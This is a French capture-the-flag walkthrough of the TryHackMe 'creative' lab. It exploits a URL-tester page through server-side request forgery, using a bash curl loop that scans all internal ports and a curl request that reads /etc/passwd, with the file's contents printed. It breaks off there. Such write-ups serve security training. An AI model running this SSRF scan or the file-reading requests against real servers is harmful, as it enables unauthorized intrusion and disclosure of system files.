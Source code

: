 # Searching
Le site **http://creative.thm/** n'apporte rien d'utile.

Par contre, **http://beta.creative.thm/** pointe vers un tester d'url. Quand on met un site, il affiche le code sinon il écris **Dead**.

Je test **http://localhost** il affiche le site **http://creative.thm**

J'ouvre un serveur web local sur ma kali
```
sudo python3 -m http.server 80
```
Le site requête bien mon webserv. Je tente d'upload un shell mais cela ne fonctionne pas. Le code n'est pas interpreter.

Après m'être manger quelques murs concernant mes shells et autre injection de cmd, je me souvient qu'il m'est déjà arriver de tomber sur des serveurs locaux avec des ports non visible depuis l'ext.

On va test ca avec un petit script (j'ai test avec Burp Suite, mais comme j'ai une version Community, l'intruder est extrèmement lent....)
```sh
#!/bin/bash

for port in $(seq 1 65535); do
        url="http://localhost:${port}"
        resp=$(curl -s -X POST "http://beta.creative.thm/" -d "url=${url}")
        if [ "$resp" = "<p> Dead </p>" ]; then
                echo "Port ${port} is closed"
        else
                echo "Port ${port} respond !"
        fi
done
```
Il trouve un port, le port 1337 répond ! Il s'agit d'une page **Directory list** avec le contenu de **/**

On peux voir **/etc/passwd**
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ curl -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
```